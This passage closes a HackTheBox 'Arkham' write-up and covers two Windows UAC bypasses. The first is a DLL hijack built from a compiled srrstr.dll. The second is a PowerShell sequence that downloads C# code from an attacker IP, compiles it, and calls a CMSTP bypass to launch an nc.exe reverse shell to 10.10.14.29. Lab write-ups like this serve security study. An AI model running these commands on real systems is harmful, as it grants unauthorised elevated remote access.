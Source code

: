 ```cpp
	&si,            // Pointer to STARTUPINFO structure
	&pi );          // Pointer to PROCESS_INFORMATION structure
	
	WaitForSingleObject(pi.hProcess, INFINITE);
	CloseHandle(pi.hProcess);
	CloseHandle(pi.hThread);
	ExitThread(0);
}
```

If you're interested in knowing more about how it works I suggest reading these two pages: [DllMain](https://docs.microsoft.com/en-us/windows/win32/dlls/dllmain), [CreateProcessA](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa). I compiled it using mingw32:

```shell-session
┌─[baud@parrot]─[~/arkham]
└──╼ $i686-w64-mingw32-gcc -shared -o srrstr.dll srrstr.cpp -l ws2_32
```

Note: if anyone knows why only the code compiled with i686-w64-mingw32-gcc works on the box and not with x86_64-w64-mingw32-gcc please let me know, because I'm a little confused.  Anyway, drop the DLL in the WindowsApps folder, launch one of the vulnerable programs, and a shell is spawned:

![img](/images/arkham-writeup/28.png)

![img](/images/arkham-writeup/29.png)

Note that the full path of the program must be specified, this is necessary because there are two different copies of the program on the disk, one in System32 and the other in SysWOW64, apparently the attack only works with the second executable.

The second UAC bypass is easy to pull off as well, it consinsts in downloading a [C# source file](https://github.com/0xVIC/UAC/blob/master/SendKeys_technique.cs), compiling it as a DLL on Arkham, loading the DLL into memory from PS, and calling the bypass function from the DLL by giving it a command to run which will inherit higher privileges. [Here](https://oddvar.moe/2017/08/15/research-on-cmstp-exe/) is explained the bypass that the DLL exploits, which relies on a binary called CMSTP.exe:

```powershell
# download the file locally:
Invoke-WebRequest "http://10.10.14.29:9090/bypass.cs" -outfile "./Source.cs"
# compile it as a DLL:
Add-Type -TypeDefinition ([IO.File]::ReadAllText("$pwd\Source.cs")) -ReferencedAssemblies "System.Windows.Forms" -OutputAssembly "CMSTP-UAC-Bypass.dll"
# load the newly compiled DLL into memory:
[Reflection.Assembly]::Load([IO.File]::ReadAllBytes("$pwd\CMSTP-UAC-Bypass.dll"))
# get a reverse shell using nc:
[CMSTPBypass]::Execute("C:\tomcat\apache-tomcat-8.5.37\bin\nc.exe 10.10.14.29 9898 -e cmd.exe")
```
[(source)](https://0x00-0x00.github.io/research/2018/10/31/How-to-bypass-UAC-in-newer-Windows-versions.html)

This was Arkham, one of the most fun and instructive boxes I’ve done so far. Thank you for reading, I hope you found this post useful.


This post was originally published on [0x00sec](https://0x00sec.org/t/hackthebox-writeup-arkham/15541).












